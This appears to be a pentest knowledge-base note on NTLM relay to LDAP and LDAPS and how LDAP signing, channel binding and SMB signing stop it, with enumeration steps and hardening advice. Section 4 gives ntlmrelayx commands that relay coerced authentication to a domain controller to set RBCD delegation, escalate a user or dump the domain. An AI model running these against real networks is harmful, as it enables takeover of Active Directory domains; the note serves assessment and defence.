

# 22 - LDAP Signing, Channel Binding and Relay Hardening

## 1. Executive Summary

Most devastating relay chains (coercion → relay to **LDAP** for RBCD, or → **LDAPS**) only work because two protections are off by default-ish: **LDAP signing** (integrity on LDAP) and **LDAP channel binding** (binds the TLS channel to the auth, stopping relay to LDAPS). This note is the **defender-and-attacker view of the relay boundary**: when signing/channel-binding (and SMB signing + EPA) are missing, relayed NTLM lands on LDAP and you write `msDS-AllowedToActOnBehalfOfOtherIdentity` (RBCD) or dump the directory; when they're enforced, those exact chains break. Knowing which mitigation kills which relay tells you what to try and what to recommend.

## 2. Concept Overview

- **NTLM relay** forwards a victim's authentication to a third service ([[11 - NTLM Relay Attack]] A-36). **LDAP** is a prime target (set RBCD, add to groups, read everything).
- **LDAP signing** (server requires integrity) blocks relay to plain LDAP (389). **Channel binding (EPA for LDAP)** blocks relay to LDAPS (636) by tying auth to the TLS channel. **SMB signing** blocks SMB relay. **EPA** on HTTP (e.g. AD CS web enrollment) blocks ESC8.
- Coercion ([[04 - AD CS NTLM Relay ESC8 and Coercion]]) supplies the victim auth; the mitigations decide where it can be relayed.

## 3. Enumeration (which mitigations are off?)

```bash
# SMB signing required? (relayable hosts)
crackmapexec smb <subnet> --gen-relay-list relayable.txt    # not-required = relayable
nxc smb <subnet> -M zerologon   # (unrelated, but cme has signing in output)
# LDAP signing / channel binding posture
nxc ldap <dc> -u user -p pw -M ldap-checker      # reports signing + channel binding
NetExec / LdapRelayScan.py -dc-ip <dc> -method BOTH
```

## 4. Exploitation (when protections are missing)

```bash
# Relay coerced auth to LDAP → set RBCD on a victim computer (no signing/channel binding)
ntlmrelayx.py -t ldap://<dc> --delegate-access --no-dump
#   then coerce a computer to authenticate (PetitPotam/printerbug) → relay creates a controlled
#   computer + writes msDS-AllowedToActOnBehalfOfOtherIdentity → S4U (see note 07)

# Relay to LDAPS when channel binding off
ntlmrelayx.py -t ldaps://<dc> --delegate-access
# Relay to add user to group / dump domain
ntlmrelayx.py -t ldap://<dc> --escalate-user lowpriv
```

## 5. Mermaid Attack Flow



## 6. Operator Takeaways
- Enforced LDAP signing + channel binding kills the most common RBCD-via-relay path → shift to AD CS HTTP (EPA?), SMB (signing?), or MSSQL targets.

## 7. Defense & Hardening (the point of this note)
1. **Enforce LDAP signing** (`Domain controller: LDAP server signing requirements = Require`) and **LDAP channel binding** (EPA) — kills relay to LDAP/LDAPS.
2. **Require SMB signing** everywhere (kills SMB relay); enable **EPA** on AD CS web enrollment + other HTTP auth (kills ESC8); **disable NTLM** where feasible.
3. Mitigate coercion (the trigger): PetitPotam patch, disable Spooler on DCs, RPC filters; monitor `ldap-checker`-style posture continuously.

## 8. Chaining & Related Notes
- The mitigation layer behind **[[07 - Resource-Based Constrained Delegation Abuse]]**, **[[04 - AD CS NTLM Relay ESC8 and Coercion]]**, **[[11 - NTLM Relay Attack]]** / **[[13 - LDAP Relay]]** (A-36).

## 9. Related Notes
- Network LDAP: **[[08 - LDAP (Ports 389-636) Pentesting]]**; SMB: **[[06 - SMB (Ports 139-445) Pentesting]]**.

## 10. Tools
`ntlmrelayx.py`, `nxc/cme` (ldap-checker, --gen-relay-list), `LdapRelayScan.py`, `PetitPotam.py`, `Coercer`.
